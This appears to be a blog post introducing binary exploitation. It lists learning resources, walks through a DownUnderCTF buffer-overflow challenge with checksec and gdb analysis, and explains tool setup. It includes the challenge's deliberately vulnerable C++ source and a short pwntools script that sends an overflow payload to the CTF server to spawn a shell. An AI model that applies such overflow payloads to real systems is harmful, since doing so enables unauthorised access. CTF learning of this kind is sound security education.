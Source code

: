 ```yaml
---
title: Pwnology
time: 2024-07-11 12:00:00
categories: [Infosec, Pwnology, Research]
tags: [Infosec, Pwnology]
image: /assets/posts/Pwnology/0.png
---
```

`Pwnology` is a subject which deals with binary exploitation and exploit development ( and yes, I made that up LOL). In this blog, we’ll be going on a journey of Mastering Pwn. It is one of the most difficult domains of the information security landscape and there aren’t much free resources that one can take use of. Pretty difficult subject to get started into. Therefore, I have made it my mission to make it easy for fellow security enthusiasts to get started in Pwn. There’ll also be bits about Reverse Engineering as well. 

Look, I’m not much of a expert in this area, idea is to document the whole process towards Pwn mastery. Have fun.

```bash
Author: AbuCTF
```

## Resources

[**Nightmare**](https://guyinatuxedo.github.io/)

[**PWN101**](https://tryhackme.com/r/room/pwn101)

[**Intro to Binary Exploitation (Pwn) - Practical Buffer Overflow Challenges (for beginners)**](https://youtube.com/playlist?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&si=Bq7aOzKf2QaaMAE-)

[**Binary Exploitation PWN101**](https://youtube.com/playlist?list=PLchBW5mYosh_F38onTyuhMTt2WGfY-yr7&si=6Oo36wuWjBpizLah)

[**pwn.college**](https://pwn.college/dojos)

[**Binary Exploitation / Memory Corruption by LiveOverflow**](https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&si=u676IXySzhdKgqR0)

[**Dr Josh Stroschein - The Cyber Yeti**](https://www.youtube.com/@jstrosch/playlists)

[**Stack - Binary Exploitation**](https://ir0nstone.gitbook.io/notes/types/stack)

[**Overview - CTF Handbook**](https://ctf101.org/binary-exploitation/overview/)

[**How to Learn Binary Exploitation Roadmap**](https://www.hoppersroppers.org/roadmap/training/pwning.html)

[**ROP Emporium**](https://ropemporium.com/)

[**Exploit Education**](https://exploit.education/)

[**How2Heap**](https://github.com/shellphish/how2heap)

[**GuidedHacking**](https://guidedhacking.com/)

[**Pwnables**](https://pwnable.tw/challenge)

[**Deusx64**](https://deusx64.ai/)

[**Roppers Academy**](https://roppers.org/collections)

[**Azeria Labs**](https://azeria-labs.com/writing-arm-assembly-part-1)

[**Reversing Challenges**](https://challenges.re/)

[**Begin RE**](https://www.begin.re/)

[**CrackMes**](https://crackmes.one/)

## Intro

Well, I recently attended the `DownUnderCTF`, and solved a Pwn challenge over there. Hyped. I think showing how I solved the challenge gives a solid introduction into the subject, we’ll be going over file formats, ELF inspection and protection using `checksec`. Finally the challenge is about a slightly tweaked form of Buffer Overflow, like the name suggests, Buffer Overflows occur when the user overflows the data-structure underneath the program in order to inject code or gain other privileges like access to restricted information within the program. That itself is a pretty deep subject as it has a steep learning curve and lot of sub-types.

### **VectorOverflow**

**Description**: 

Please overflow into the vector and control it!

**Author**: joseph

```
nc 2024.ductf.dev 30013
```

**Given**: `vector_overflow` `vector_overflow.cpp`

 As `pwn’s` ultimate noob, I’m ~~hyped~~ nervous af right now.

<img src="/assets/posts/DownUnderCTF/17.png" alt="p4" width="70%"/>

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ file vector_overflow
vector_overflow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=4a0b824c662ee47b5cd3e73176c0092f1fcf714b, 
for GNU/Linux 3.2.0, not stripped
```

Let’s understand, what all this means. 

1. **ELF 64-bit LSB executable, x86-64**: This indicates that the file is an Executable and Linkable Format (ELF) file, which is a standard file format for executables, object code, shared libraries, and core dumps in Unix-like operating systems. "64-bit" specifies that it is a 64-bit executable, and "LSB" (Least Significant Byte first) indicates the byte order (also known as little-endian). "x86-64" specifies the architecture, meaning it is designed for 64-bit Intel and AMD processors.
2. **version 1 (SYSV)**: This refers to the ELF version and the System V ABI (Application Binary Interface) standard, which is a specification that defines a binary interface for application programs on UNIX systems.
3. **dynamically linked**: This indicates that the executable is dynamically linked, meaning it relies on shared libraries (e.g., libc.so) that are loaded into memory at runtime rather than being statically linked (included in the executable itself).
4. **interpreter /lib64/ld-linux-x86-64.so.2**: This specifies the dynamic linker/loader that will be used to load the shared libraries required by the executable. The specified interpreter is `/lib64/ld-linux-x86-64.so.2`, which is the standard dynamic linker for 64-bit Linux systems.
5. **BuildID[sha1]=4a0b824c662ee47b5cd3e73176c0092f1fcf714b**: This is a unique identifier for the binary, generated using the SHA-1 hashing algorithm. It can be used for debugging purposes or to verify the integrity of the executable.
6. **for GNU/Linux 3.2.0**: This indicates the minimum version of the Linux kernel that is required to run the executable. In this case, the executable requires at least version 3.2.0 of the Linux kernel.
7. **not stripped**: This means that the debugging symbols have not been removed from the executable. Debugging symbols provide additional information that can be useful for debugging the program, such as function names, variable names, and line numbers.

In summary, `vector_overflow` is a 64-bit ELF executable for the x86-64 architecture, dynamically linked with shared libraries, designed to run on Linux kernel version 3.2.0 or higher, and contains debugging symbols.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ checksec --file=vector_overflow
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified     Fortifiable      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   121 Symbols       No    0             1                vector_overflow
```

Source: `Sven Vermeulen` @ 15 July 2011

![18](/assets/posts/DownUnderCTF/18.png)

It even comes with pretty colors (the "`No RELRO`" is red whereas "`Full RELRO`" is green). But beyond interpreting those colors (which should be obvious for the non-colorblind), what does that all mean? Well, let me try to explain them in one-paragraph entries (yes, I like such challenges ;-) Note that, if a protection is not found, then it probably means that the application was not built with this protection.

**`RELRO`** stands for **`Relocation Read-Only`**, meaning that the headers in your binary, which need to be writable during startup of the application (to allow the dynamic linker to load and link stuff like shared libraries) are marked as read-only when the linker is done doing its magic (but before the application itself is launched). The difference between **Partial RELRO** and **Full RELRO** is that the `Global Offset Table` (and Procedure Linkage Table) which act as kind-of process-specific lookup tables for symbols (names that need to point to locations elsewhere in the application or even in loaded shared libraries) are marked read-only too in the **Full RELRO**. Downside of this is that lazy binding (only resolving those symbols the first time you hit them, making applications start a bit faster) is not possible anymore.

A **`Canary`** is a certain value put on the stack (memory where function local variables are also stored) and validated before that function is left again. Leaving a function means that the "previous" address (i.e. the location in the application right before the function was called) is retrieved from this stack and jumped to (well, the part right after that address - we do not want an endless loop do we?). If the **canary** value is not correct, then the stack might have been overwritten / corrupted (for instance by writing more stuff in the local variable than allowed - called *buffer overflow*) so the application is immediately stopped.

The abbreviation **`NX`** stands for non-execute or non-executable segment. It means that the application, when loaded in memory, does not allow any of its segments to be both writable and executable. The idea here is that writable memory should never be executed (as it can be manipulated) and vice versa. Having **NX enabled** would be good.

The last abbreviation is **`PIE`**, meaning *Position Independent Executable*. A **No PIE** application tells the loader which virtual address it should use (and keeps its memory layout quite static). Hence, attacks against this application know up-front how the virtual memory for this application is (partially) organized. Combined with in-kernel `ASLR` (*Address Space Layout Randomization*, which Gentoo's hardened-sources of course support) PIE applications have a more diverge memory organization, making attacks that rely on the memory structure more difficult.

- **`RPATH`**:
    - **No RPATH**: The RPATH is a hard-coded path in the executable that tells the dynamic linker where to look for shared libraries. The absence of RPATH indicates that no such path is hard-coded in the binary.
- **`RUNPATH`**:
    - **No RUNPATH**: Similar to RPATH, RUNPATH is another hard-coded path in the executable for shared libraries. The absence of RUNPATH indicates that no such path is hard-coded in the binary.
- **`Symbols`**:
    - **121 Symbols**: This indicates that the executable contains 121 symbols, which could include function names, variable names, etc. These symbols can be useful for debugging and analysis.

Again, what is **`FORTIFY_SOURCE`**? Well, when using **FORTIFY_SOURCE**, the compiler will try to intelligently read the code it is compiling / building. When it sees a C-library function call against a variable whose size it can deduce (like a fixed-size array - it is more intelligent than this btw) it will replace the call with a `FORTIFY`'ed function call, passing on the maximum size for the variable. If this special function call notices that the variable is being overwritten beyond its boundaries, it forces the application to quit immediately. Note that not all function calls that can be fortified are fortified as that depends on the intelligence of the compiler (and if it is realistic to get the maximum size).
Well, enough theory. Running the checksec command again, we see something different. I mean I ran the command on the same machine this morning. Have a look.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ checksec --file=vector_overflow
[*] '/mnt/c/Documents4/CyberSec/DUCTF/pwn/vector_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anyways, let’s not use `Ghidra` for now. Into `GDB` we go.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ gdb ./vector_overflow
GNU gdb (Debian 13.2-1+b1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
```

First thing I did, 

`(gdb) info functions`

Which reveals these guys.

![19](/assets/posts/DownUnderCTF/19.png)

Wait. I already have the source. Why am I disassembling !

Let’s understand this shall we.

**Explanation of the Code**

1. **Global Variables**:
    
    ```cpp
    char buf[16];
    std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
    ```
    
    - `buf` is a global character array with a size of 16.
    - `v` is a global vector of characters initialized with five 'X' characters.
2. **Functions**:
    - `lose()`:
        
        ```cpp
        void lose() {
            puts("Bye!");
            exit(1);
        }
        ```
        
        - This function prints "Bye!" and then exits the program with a status code of 1.
    - `win()`:
        
        ```cpp
        void win() {
            system("/bin/sh");
            exit(0);
        }
        ```
        
        - This function executes a shell (`/bin/sh`) using the `system` function and then exits the program with a status code of 0.
3. **Main Function**:
    
    ```cpp
    int main() {
        char ductf[6] = "DUCTF";
        char* d = ductf;
    
        std::cin >> buf;
        if(v.size() == 5) {
            for(auto &c : v) {
                if(c != *d++) {
                    lose();
                }
            }
    
            win();
        }
    
        lose();
    }
    ```
    
    - `ductf` is a local character array initialized with the string "DUCTF".
    - `d` is a pointer to the beginning of `ductf`.
    - `std::cin >> buf;`:
        - This line reads input from the user and stores it in `buf`. Note that `buf` can hold up to 15 characters plus a null terminator.
    - `if(v.size() == 5)`:
        - This checks if the size of the vector `v` is 5, which it always is because it's initialized with five 'X' characters.
    - `for(auto &c : v)`:
        - This loop iterates over each character `c` in the vector `v`.
        - `if(c != *d++)`:
            - This checks if the current character `c` in the vector is not equal to the current character pointed to by `d`, and then increments the pointer `d`.
            - If any character in the vector `v` is not equal to the corresponding character in `ductf`, the `lose()` function is called, terminating the program.
    - If all characters in the vector `v` match the characters in `ductf`, the `win()` function is called, which opens a shell and then exits the program.
    - If the size of the vector `v` is not 5, the program calls the `lose()` function and terminates.

![20](/assets/posts/DownUnderCTF/20.png)

Just as a remainder. Probably to myself, 

**Position Independent Executable (PIE)**:

- PIE is a security feature that allows executables to be loaded at random memory addresses each time they are executed. This is a part of `Address Space Layout Randomization (ASLR)`.
- When a binary is compiled as a PIE, it can be loaded at any address in memory, which makes it more difficult for an attacker to predict the locations of specific functions or variables.

You get the point right, basically goal of the buffer overflow exploit would be to overwrite the contents of the vector `v` with "DUCTF" to bypass the checks and execute the `win()` function.
But simply doing things like `AAAAAAAAAAAAAAADUCTF` won’t work. To successfully exploit the buffer overflow and call the `win` function in the provided program, you need to find the memory addresses of the functions and calculate the correct offsets. Now, let’s continue with `GDB`.

![20-5](/assets/posts/DownUnderCTF/20-5.png)

Since, we already know the size of the buffer, we move on to finding the memory address of the buffer , which is `0x4051e0` . Well the, now comes the most important part, scripting the exploit and sending it to the server. 

This is done through `Pwntools`. It’s so useful so many things. Check it out at.

[Pwntools](https://github.com/Gallopsled/pwntools)

```bash
from pwn import *

# p = process('./vector_overflow')
p = remote('2024.ductf.dev', 30013)
p.sendline(b'DUCTF' + b'A' * 11 + p64(0x4051e0) + p64(0x4051e5))
p.interactive()
```

Flag: `DUCTF{y0u_pwn3d_th4t_vect0r!!}`

This is how I felt after the challenge.

<img src="/assets/posts/DownUnderCTF/22.png" alt="p4" width="70%"/>

## Tools

As for the tools, we have a lot of them, to name a few. `Ghidra`, `GDB`, `Pwntools`, `Pwndbg`, `Peda`, `IDA`, `Cutter`, `radare2` and so much more.

I suggest you watch `CryptoCat’s` Practical Buffer Overflow playlist, it’s sensational with the short and condensed input. I’ll also post my learning of the course over here. Also I highly recommend `WSL2`. It’s so fast to boot up and get going.

### Ghidra

<img src="/assets/posts/Pwnology/1.png" alt="p4" width="30%"/>

- Ghidra requires Java to run. Make sure you have JDK 11 or later installed.
- You can check if Java is installed by running:
    
    ```bash
    java -version
    ```
    
- If not installed, you can install OpenJDK 11 (or later) using:
    
    ```bash
    sudo apt-get install openjdk-11-jdk
    ```
    

`Ghidra` is a powerful software reverse engineering suite developed by the NSA. It's open-source and widely used for analyzing binaries to understand their functionality, find vulnerabilities, and more. 

```bash
sudo apt-get install ghidra
```

### GDB

<img src="/assets/posts/Pwnology/2.png" alt="p4" width="40%"/>


`GDB` stands for the “Gnu DeBugger.” This is a powerful source-level debugging package that **lets you see what is going on inside your program**. You can step through the code, set breakpoints, examine and change variables, and so on.

```bash
sudo apt-get install gdb
```

There are also popular extensions of it that are really useful, `pwndbg` and `peda` . I would suggest both on Ubuntu, cause pwndbg has some compatibility with Kali, well I do **pwndbg** on Ubuntu and **peda** on Kali. 

`PwnDBG`

```bash
sudo apt update
sudo apt install -y gdb python3-pip git
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```

Setting-up alias to use extensions as it is.

```bash
nano ~/.bashrc
alias gdb-pwndbg='gdb -ex "source <path>/pwndbg/gdbinit.py"'
source ~/.bashrc
OR
sudo nano /root/.gdbinit
alias gdb-pwndbg='gdb -ex "source <path>/pwndbg/gdbinit.py"'
```

Now, you can use your extension by typing `gdb-pwndbg` .

`GDB-Peda`

```bash
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

To create an alias to use these extensions separately.

```bash
nano ~/.bashrc
alias gdb-peda='gdb -ex "source ~/peda/peda.py"'
source ~/.bashrc
```

Now you’re good to go. Go ahead and play around with these tools.

[GDB Command Reference - Index page](https://visualgdb.com/gdbreference/commands/)

### Pwntools

<img src="/assets/posts/Pwnology/3.png" alt="p4" width="50%"/>

`Pwntools` is a powerful and user-friendly Python library designed for rapid exploit development. It provides a suite of utilities that simplifies the process of binary exploitation, allowing you to focus on crafting exploits rather than dealing with the underlying complexities.

```bash
pip3 install pwntools
```

But, if you’re on Ubuntu, use a virtual environment or `Conda`. 

## Assembly

From now on, I’ll be fully referencing the `GuyInATuxedo`. This is just to make everything in one space. Of course, full credits to him, it’s just that I want to self-learn from one place.

[**Nightmare**](https://guyinatuxedo.github.io/index.html)

![Continue](/assets/posts/PrivEscalation/continue.jpg)